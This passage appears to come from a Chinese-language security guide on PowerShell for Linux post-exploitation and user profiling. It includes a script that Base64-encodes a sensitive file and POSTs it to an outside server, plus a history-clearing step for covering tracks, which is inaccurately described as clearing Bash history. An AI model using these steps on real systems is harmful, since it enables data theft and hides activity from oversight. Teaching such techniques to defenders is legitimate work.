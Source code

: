 ```
 # List files in the /etc directory
Get-ChildItem -Path /etc
```

这个脚本枚举指定路径下的文件和目录。

## 数据外泄

Linux 上的 PowerShell 可以用来外泄数据。一个示例是将文件编码为 Base64 并发送到外部服务器：

```
 # Encode and exfiltrate a file
$fileContent = Get-Content /path/to/sensitive-file.txt -Raw
$encodedContent = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($fileContent))
Invoke-RestMethod -Uri "http s://snowcap cyber.com/upload" -Method POST -Body $encodedContent
```

这个脚本将文件的内容编码为 Base64，并将其发送到攻击者控制的服务器。

## 掩盖痕迹

Linux 上的 PowerShell 可以通过修改或删除日志来掩盖痕迹。一个示例是清除 Bash 历史记录：

```
 # Clear Bash history
Clear-History
```

这个脚本删除命令历史记录，通过清除已执行命令的记录来掩盖痕迹。

需要注意的是，在 Linux 上使用 PowerShell 进行后期利用可能不如在 Windows 上熟悉或强大。Linux 系统通常具有本地工具和脚本语言，如 Bash，这些工具更为普遍且集成度更高。虽然在特定场景下可以使用 Linux 上的 PowerShell，但理解和利用 Linux 特有的工具通常更为有效。安全专业人员在选择 Linux 上的后期利用技术时，应了解上下文和环境。

# 在 Linux 上使用 PowerShell 对用户进行分析

在 Linux 上使用 PowerShell 对用户进行分析，涉及收集用户活动、权限和系统交互的详细信息。尽管 Linux 提供了本地工具和命令进行系统分析，但 PowerShell 可以通过提供一致且可脚本化的界面来补充这些工具，从而在不同平台上都能使用。

## 用户信息

Linux 上的 PowerShell 可以检索特定用户的信息，包括用户名、UID、GID、主目录和 Shell。以下是一个示例：

```
 # Get information about a specific user
Get-User -Name andrewblyth
```

这个假设的 cmdlet `Get-User` 检索名为 `andrewblyth` 的用户信息。

## 正在运行的进程

PowerShell 可以列出正在运行的进程，并根据用户进行筛选。这允许快速查看与特定用户相关的进程：

```
 # Get processes for a specific user
Get-Process | Where-Object { $_.UserName -eq "andrewblyth" }
```
